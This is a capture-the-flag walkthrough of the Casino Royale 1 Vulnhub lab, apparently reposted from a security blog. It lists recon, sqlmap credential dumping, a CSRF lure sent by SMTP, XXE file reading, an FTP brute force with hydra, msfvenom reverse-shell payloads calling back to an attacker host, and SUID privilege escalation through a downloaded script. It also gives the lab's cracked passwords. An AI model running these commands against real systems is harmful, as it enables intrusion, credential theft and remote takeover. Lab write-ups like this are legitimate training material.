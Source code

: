 ## 1 Vulnhub Walkthrough

###### #Intermediate



### **Penetrating Methodologies**

- IP discovery and Port Scanning.
- Browsing the IP on port 8080.
- Discovering accessible directories on the victim’s machine.
- Searching exploits via searchsploit.
- Using SQLMAP to find database and login credentials.
- Browsing directories on the browser.
- Adding Domain name to /etc/hosts file.
- Searching exploits via searchsploit.
- Using Cross-Site Request Forgery Exploit code.
- Using telnet to connect to port 25.
- Tail off the access.log file.
- Browsing directories on a browser.
- Exploiting XML External Entity vulnerability.
- Using curl to send the file.
- Creating a PHP shell using msfvenom.
- Using hydra to brute force FTP login Password.
- Logging into Ftp.
- Using Multi/handler of Metasploit Framework.
- Enumerating through directories.
- Getting Login Credentials.
- Looking for SUID file and directories.
- Creating a bash shell using msfvenom.
- Using Netcat listener to get a reverse shell.
- Getting Root Access.
- Reading the Flag.

### **Walkthrough**

`netdiscover -r 192.168.1.1/24`

`nmap -p- -sV 192.168.1.102`

`dirb http://192.168.1.102/`

`url http://192.168.1.102/index.php`

```bash
# The page revealed a pokermax software term
searchsploit poker
searchsploit -m 6766
cat 6766.txt
url http://192.168.1.102/pokeradmin/index.php
```

`sqlmap -u http://192.168.1.102/pokeradmin/index.php --forms --risk 3 --level 5 --dbs --batch`

`sqlmap -u http://192.168.1.102/pokeradmin/index.php --forms --risk 3 --level 5 -D pokerleague --dump-all --batch` [^1]

`host add_line > 192.168.1.102	casino-royale.local`

`url http://casino-royale.local/vip-client-portfolios/?url=blog`

```bash
searchsploit snowfox
searchsploit -m 35301
cp /root/35301.html /var/www/html/raj.html
# make some minor changes on raj.html
# and then restart the service for apache2
service apache2 restart
```

```bash
# Let’s connect to port 25 using telnet. We will be sending a mail to recipient valenka along with the link of raj.html file.
telnet casino-royale.local 25
mail from: user
rcpt to :valenka
data
subject : obanno
> hi
> http://192.168.1.107/raj.html
> bye
quit
```

`tail -n1 -f /var/log/apache2/access.log` [^2]

`url http://casino-royale.local/vip-client-portfolios/?uri=signin` [^3]

`url http://casino-royale.local/ultra-access-view/main.php `[^4]

`curl -d @xml.txt http://casino-royale.local/ultra-access-view/main.php` [^5]

`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.107 lport=443 -f raw > shell.php5` [^6]

`hydra -l ftpUserULTRA -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.102 `[^7]

```bash
# Let’s just Login into FTP,and send .php5 files or files with no extension. then  upload our shell and gave permissions to execute.
ftp 192.168.1.102 21
put shell.php5
chmod 777 shell.php5
```

```bash
# After uploading our shell, we set up a listener using Metasploit-framework.
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.107
msf exploit(multi/handler) > set lport 443
msf exploit(multi/handler) > run
# We got the reverse shell, but it is not a proper shell. We will spawn（生成） a tty shell using python.
meterpreter > shell
meterpreter > python -c "import pty; pty.spawn('/bin/bash')"
# find sql config.php file located on /var/www/html/includes/ , and read the contents of config.php , we get DBusername and DBpassword
```

`su valenka`

`password: 11archives11!`

`find / -perm -4000 2> /dev/null` [^8]

`cd /tmp` [^9]

`msfvenom –p cmd/unix/reverse_netcat lhost=192.168.1.107 lport=1234 R` [^10]

`vim run.sh && python -m SimpleHTTPServer 8000`

`wget http://192.168.1.107:8000/run.sh` [^11]

`/opt/casino-royale/mi6_detect_test`

```bash
# This time on running the SUID file, it gave a reverse shell on our netcat listener.  Finally, we have got the root access and read the FLAG!!
nc -lvp 1234
id
cd/root
ls
cd flag
cat flag.sh
```

[原文](https://www.hackingarticles.in/casino-royale-1-vulnhub-walkthrough/)

---

[^1]: We have got the required credentials. **Username: admin** **Password: raise12million**
[^2]: We have just tail off the access log of apache2.
[^3]: Let’s Login with the credentials, we have given in the raj.html file in the **Signin****section** of the page **casino-royale.local/vip-client-portfolios/?uri=signin** **Email address:** [**user@user.local**](mailto:user@user.local) **Password: password**
[^4]: his gave us a hint to use an **XML External Entity injection** for our next step.
[^5]: looked for a **code** for **XML External Entity injection [online](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection). Therefore, we created a new file **xml.txt and pasted the code by making some minor changes. Let’s send our **XML External Entity Injection** in **file** **xml.txt** using curl. it gave us the **/etc/passwd** file
[^6]: We have created a **PHP shell** payload using **msfvenom**.
[^7]: We have used **hydra** to find the **password** of username **ftpUserULTRA** for **Ftp Login.** We have cracked the password for ftp login i.e **bankbank**
[^8]: After that, we tried to find files with SUID bit permissions. Here we found an interesting **Suid file and directory.** :**/opt/casino-royale/mi6_detect_test**
[^9]: On running the **SUID file**, we see it is most likely using a **run.sh** file but there no such file or directory. **Since the run.sh has no permissions**.  So we decided to move to **/tmp** directory.
[^10]: We need to create a bash code using Msfvenom. After that, we have copied the code in **run.sh** and executed python server.
[^11]: We have downloaded the file in the **/tmp** directory. Again ran the SUID file.